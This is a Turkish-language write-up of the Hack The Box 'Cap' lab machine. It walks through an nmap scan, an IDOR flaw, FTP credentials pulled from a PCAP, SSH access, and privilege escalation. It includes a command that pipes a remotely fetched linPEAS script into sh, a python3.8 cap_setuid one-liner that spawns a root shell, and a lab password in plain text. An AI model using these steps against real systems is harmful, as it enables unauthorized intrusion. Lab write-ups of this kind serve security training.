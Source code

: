 # Hack The Box - Cap (Linux / Easy)

## 📅 Genel Bilgi

Yayın Tarihi: 05 Haziran 2021  
Zorluk: Kolay  
Seviye: Başlangıç  
Hazırlayan: InfoSecJack  
Platform: Hack The Box  
Hedef: Kullanıcı ve Root Bayrakları  

---

## 🚀 Proje Özeti

Bu makine, web arayüzünde erişilen ve içindeki PCAP dosyasından FTP kimlik bilgilerini sızdıran bir "Security Dashboard" içeriyor.  
Elde edilen kimlik bilgileri FTP ve SSH erişiminde kullanılıyor.  
Yetki yükseltme aşamasında Linux Capabilities kullanılarak, `/usr/bin/python3.8` üzerinde bulunan `cap_setuid` yetkisiyle root erişimi sağlanıyor.

---

## 🕵️‍♂️ Bilgi Toplama

Nmap taraması ile açık portlar ve servis versiyonları tespit edildi:


nmap -v -sS -A -T4 10.10.10.245
Açık portlar:

21/tcp - FTP (vsftpd 3.0.3)

22/tcp - SSH (OpenSSH 8.2p1 Ubuntu)

80/tcp - HTTP (Gunicorn web server)

---

🌐 Web Servisi Analizi (Port 80)
Web arayüzü "Security Dashboard" ile açılıyor.
"Security Snapshot" işlemi sonrası tarayıcı /data/[id] formatında URL'lere yönlendiriliyor.
id parametresi değiştirilerek başka kullanıcıların analiz sonuçlarına erişilebildiği tespit edildi.
Bu, IDOR (Insecure Direct Object Reference) zafiyetidir.
En fazla kayıt içeren id=0 olarak belirlendi.

---

📂 PCAP Dosyasının İncelenmesi
/data/0 dizininden indirilen pcap dosyası Wireshark ile incelendi.
FTP trafiğinden açık olarak iletilen kimlik bilgileri elde edildi:

Kullanıcı Adı: nathan
Şifre: Buck3tH4TF0RM3!

---

🔑 Erişim Sağlama
Bu kimlik bilgileri önce FTP için denendi, işe yaramadı.
SSH bağlantısı başarılı oldu.
ssh nathan@10.10.10.245


---

🏴 Kullanıcı Bayrağı (User Flag)
SSH bağlantısı sonrası kullanıcı bayrağı okundu:
cat /home/nathan/user.txt

---

🛠️ Yetki Yükseltme (Privilege Escalation)
Hedef makine dış dünyadan dosya indirmeye kapalı olduğu için linPEAS betiği saldırgan makinesinde python3 ile HTTP sunucusu açılarak hedefe aktarıldı.

Saldırgan makinesinde HTTP sunucu açılır:
python3 -m http.server 8080
Hedef makinede indirme ve çalıştırma:
curl http://10.10.16.34:8080/linpeas.sh | sh

---

⚙️ Özel Yetkili Binary Tespiti
linPEAS çıktısında /usr/bin/python3.8 dosyasının cap_setuid yetkisi olduğu görüldü.
Bu yetki programın setuid çağrısı yaparak etkin kullanıcı kimliğini değiştirmesine izin verir.

---

👑 Root Yetkisi Alımı
cap_setuid yetkisi sayesinde python3.8 kullanılarak etkin UID root yapılır ve root shell elde edilir.
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
Örnek çıktı:
nathan@cap:~$ /usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash"); '
root@cap:~#

---

🏴 Root Bayrağı (Root Flag)
Root shell açıldıktan sonra root bayrağı okunur:
cat /root/root.txt

---

📋 Özet Tablosu
Aşama              |	Durum
Nmap Taraması	     | Tamamlandı
Web Analizi (IDOR) | Tamamlandı
PCAP Analizi	     | Tamamlandı
FTP/SSH Girişi	   | Başarılı
Kullanıcı Bayrağı	 | Alındı
linPEAS Analizi	   | Tamamlandı
Yetki Yükseltme	   | Başarılı
Root Bayrağı	     | Alındı

---

🛠️ Kullanılan Araçlar
nmap
Wireshark
curl, python3 -m http.server
linpeas.sh
SSH

